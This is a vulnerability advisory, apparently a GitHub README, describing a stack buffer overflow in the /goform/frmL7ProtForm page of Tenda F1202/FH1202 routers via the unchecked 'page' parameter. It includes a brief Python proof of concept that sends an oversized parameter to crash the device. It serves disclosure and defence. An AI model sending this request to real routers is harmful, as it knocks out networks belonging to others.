 # Tenda Router Vulnerability:F1202,FH1202

This vulnerability lies in the `/goform/frmL7ProtForm` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html)

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `frmL7ProtForm` it reads 1 user provided parameters `page` into `v10`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v15`.
![](./function.png)
![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/frmL7ProtForm`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/frmL7ProtForm?"
url += "page=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge
